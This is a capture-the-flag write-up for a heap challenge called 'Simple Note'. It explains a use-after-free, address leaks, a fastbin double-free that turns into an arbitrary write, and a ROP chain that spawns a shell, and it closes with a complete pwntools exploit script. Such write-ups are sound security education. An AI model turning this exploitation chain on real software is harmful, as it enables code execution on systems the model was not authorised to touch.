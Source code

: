 # Simple Note

author: kuvee
points: 491

the checksec output:
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

On inspecting the decompilation, we notice:
- We have Use after Free (UAF)
- The pointers are being stored in global array, and we can only have 6 allocations
- allocation is done using calloc() instead of main(), why does this matter? calloc zeroes out space on allocation and the algorithm slightly differs from malloc, so it will be more oriented toward fast-bin attack
- There's a peculiar function on input 9999, which gives a very nice leak
```
Note: something very interesting to see is, if your allocation bin's size has `IS_MMAPED` flag set, then calloc wont zero out its region because it assumes it's already zero-ed out because of mmap
```
```c
unsigned __int64 sub_193C()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

When we are doing scanf on `v1` there's no check if it's being taken properly, so if you just give newline, it will print the address of `v1` in the printf line which just happens to be pointer in bss area, awesome.

The main idea behind the exploitation is to first get a heap leak to defeat [safe-link](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) and perform some attack on fastbins to make it return arbitrary pointer,
we want it to be in the BSS area where the array storing the pointers is present, there we can write our own pointers and read/write.

So lets start

- get the pie leak
    ```python
        r.sendlineafter(b'>',b'9999')
        r.sendlineafter(b':',b'a')
        r.sendlineafter(b':',b'aaaaaa')
        r.recvuntil(b'age:')
        exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060
        print(hex(exe.address))
    ```

- get the heap leak
    ```python
        malloc(0x43,b'aaaa')
        free(0)
        heap_leek = unpack(show(0),'all')
    ```
- fill up the tcache without allocating them on pointer array
    ```python
    for i in range(7):
            malloc(0x33,b'')
    ```
    this works because on invalid input like just a '\n' it frees the area and makes the pointer in pointer array NULL


- Now we perform double-free on the fastbin and then change the next pointer to get a controlled pointer in bss area (similar to tcache poinsoning)
    ```python
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')
    ```
    read this for the [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/fastbin_dup.c)
    
    It's important to note that my first alloc was 0x43, which is the size that gets stored in the array, this will be acting as the fake fastbin available for use, it's `IS_MMAPED` and `PREV_INUSE` flag will be set due 0x3 (0x2|0x1)
    the allocations after that are 0x33, because allocation algorithm will perform a check on the fastbin size to detect for corruption, 0x33 allocation would go to a bin with 0x40 as size.

- Now we have control over the pointer array with our latest allocation! i'll be leaking the libc and stack address now, by making use of stdout/stdin/stderror file struct pointer in BSS area
    ```python
    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    ```
    the `environ` symbol in libc contains stack addresses, and `exe.address+0x4020` had one of the file struct pointers in libc

- Now i just do rop
    ```python
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    ```

and finally get the shell


The solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal =['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4566)
        context.noptrace=True

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendlineafter(b'>',b'9999')
    r.sendlineafter(b':',b'a')
    r.sendlineafter(b':',b'aaaaaa')
    r.recvuntil(b'age:')
    exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060

    print(hex(exe.address))
    def malloc(sz,pl):
        r.sendlineafter(b'>',b'1')
        r.sendlineafter(b':',str(sz).encode())
        r.sendlineafter(b':',pl)

    def edit(idx,pl):
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.sendlineafter(b':',pl)

    def show(idx):
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.recvuntil(b': "')
        return r.recvline().strip()[:-1]

    def free(idx):
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())

    malloc(0x43,b'aaaa')
    free(0)
    heap_leek = unpack(show(0),'all')
    for i in range(7):
        malloc(0x33,b'')
    print(hex(heap_leek<<12))
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')

    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    r.interactive()


if __name__ == "__main__":
    main()
```

